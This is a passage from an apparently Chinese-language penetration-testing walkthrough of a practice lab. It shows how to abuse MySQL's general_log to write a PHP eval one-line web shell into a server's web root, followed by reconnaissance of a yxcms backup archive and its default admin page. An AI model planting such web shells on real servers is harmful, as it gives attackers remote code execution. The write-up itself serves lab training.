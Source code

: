 ```
set global general_log='on';      ##开启日志记录
set global general_log_file='C:/phpstudy/WWW/eval.php';      ##指定日志记录文件位置为根目录下
select '<?php @eval($_GET["cmd"]); ?>';                    ##输入查询一句话语句，日志记录开启记录在指定文件中
```



访问172.16.243.130/eval.php,可以看到写入eval.php成功

![image-20210805215930898](/home/haoyun/.config/Typora/typora-user-images/image-20210805215930898.png)



2.在之前对目标网站的目录进行扫描时，发现个压缩包叫做beifen.rar，下载后解压发现为yxcms文件夹，判断目标网站存在旁站，目标服务器部署了一个网站

![image-20210806111905032](红日靶场内网渗透.assets/image-20210806111905032.png)



在网上搜索了一下，发现yxcms是一个企业化的建站系统,YXcms是一款基于PHP+MySql开发的网站管理系统，采用轻量级[MVC设计模式]。

其默认的后台页面为

```
http://域名或ip/yxcms/index.php?r=admin
```



构造url访问该网站页面:http://172.16.243.130/yscms

![image-20210806113506787](红日靶场内网渗透.assets/image-20210806113506787.png)
